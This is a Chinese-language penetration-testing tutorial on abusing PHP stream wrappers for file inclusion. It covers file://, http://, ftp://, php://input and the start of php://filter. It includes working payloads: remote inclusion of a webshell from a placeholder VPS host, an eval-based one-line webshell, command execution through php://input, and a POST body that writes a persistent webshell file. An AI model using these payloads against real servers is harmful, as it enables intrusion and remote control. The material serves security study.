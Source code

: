 **各协议的利用条件和方法：**

参考：https://www.cnblogs.com/endust/p/11804767.html

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1628997823639-8d22e937-1e94-4abd-9e2a-e459e009be24.png)

### file://

php 涉及到文件以及协议的地方默认使用 file 协议，如果没有写出协议名或者协议不存在，都会被当成 file 协议来解析。

`file://[文件的绝对路径和文件名]`

不受allow_url_fopen、allow_url_include 开启的限制。

如：`?a=file://C:/Windows/win.ini`

### http://、ftp://

访问 HTTP(s) 网址、访问 FTP(s) URLs。允许通过 HTTP 1.0 的 GET方法，以 **只读** 访问文件或资源，通常用于远程包含。

**需要allow_url_fopen = On、allow_url_include = On。**

比如包含木马文件`?a=http://vps.vps.vps.vps/shell.php`

木马文件（shell.txt）内容：`<?php @eval($_POST['shell']);?>`

### **php://**

访问各个输入/输出流（I/O streams）。经常使用的是`php://filter`和`php://input`，`php://filter`用于读取源码，`php://input`用于执行php代码。

包括`php://stdin`、`php://stdout`、`php://stderr`、`php://input`、`php://output`、`php://filter`、`php://fd`、`php://memory`、`php://temp` 九种。

- **php://input**

  访问请求的原始数据的只读流，将post请求的数据当作php代码 **执行**。注意`enctype=“multipart/form-data”` 的时候`php://input`是无效的。

  **需要allow_url_include = On，但是不受 allow_url_fopen 影响。**

  ```php
  ?page=php://input
  
  命令执行：
  POST:
  <?php system('ls');?>
  
  GetShell：
  POST:
  <?php fputs(fopen('hack.php','w'),'<?php @eval($_POST['shell']) ?>');?>
  ```

  ![image-20220805094122145](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805094122145.png)

- **php://filter**

  数据流打开时的筛选过滤应用，**读取/解析** 本地源代码。

  不受 allow_url_fopen、allow_url_include 影响。
